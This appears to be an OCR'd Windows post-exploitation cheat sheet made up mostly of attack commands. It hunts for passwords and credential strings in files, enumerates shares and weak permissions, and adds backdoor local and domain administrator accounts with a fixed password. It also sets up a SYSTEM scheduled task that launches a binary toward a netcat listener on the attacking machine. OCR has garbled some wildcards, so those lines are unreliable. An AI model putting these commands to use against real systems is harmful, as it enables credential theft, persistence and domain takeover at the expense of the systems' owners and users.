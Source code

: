 + **Find all those password and credential strings in config files.**  
dir /s _pass_ == _cred_ == _vnc_ == _.config_  
  
+ **Find all passwords in all files...**  
findstr /spin "password" _._  
  
+ **WINDOWS SHARES.**  
NET SHARE  
NET USE  
  
**--> CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE:**  
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."  
**--> MOUNT A WINDOWS SHARE FROM THE COMMAND LINE:**  
NET USE Z: \\COMPUTER_NAME\SHARE_NAME /PERSISTENT:YES  
**-->** **UNMOUNT SHARE:**  
NET USE Z: /DELETE  
**-->** **DELETE A SHARE ENTIRLEY:**  
NET SHARE /DELETE  
  
+ **Find ALL weak file permissions per drive.**  
accesschk.exe -uwqs Users c:*.*  
  
+ **A part of group "Authenticated Users" - you would be surprised if you have a real user.**  
accesschk.exe -uwqs "Authenticated Users" c:*.*  
  
  
+ **Add an Administrator User with all of the goodies.**  
cmd.exe /c net user siren superPassword /add  
cmd.exe /c net localgroup administrators siren /add  
cmd.exe /c net localgroup "Remote Desktop Users" siren /add  
  
+ **Adding a Windows Domain Administrator from the Command Line:**  
cmd.exe /c net user siren superPassword /add  
net localgroup Administrators siren /ADD /DOMAIN  
net localgroup "Remote Desktop Users" siren /ADD /DOMAIN  
net group "Domain Admins" siren /ADD /DOMAIN  
net group "Enterprise Admins" siren /ADD /DOMAIN  
net group "Schema Admins" siren /ADD /DOMAIN  
net group "Group Policy Creator Owners" siren /ADD /DOMAIN  
  
+ **Time and our own _Scheduled Tasks_.**  
time  
The current time is: 6:41:05.81  
at 06:42 /interactive "C:\Tools\sirenMaint.exe"  
  
+ **Create a Task. Run as System. Every 5 minutes. Path to binary.**  
schtasks /create /ru SYSTEM /sc MINUTE /MO 5 /tn RUNME /tr "\"C:\Tools\sirenMaint.exe\""  
**Attacking Machine:**  
nc -lvp 443  
**Victim Machine:**  
schtasks /RUN /TN "RUNME"  
  
+ **Fun with Accesschk Enumeration!**  
accesschk.exe /accepteula (_always do this first!!!!!_)  
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)  
accesschk.exe -uwcqv "Authenticated Users" * (_won't yield anything on Win 8_)  
accesschk.exe -ucqv [service_name]  
  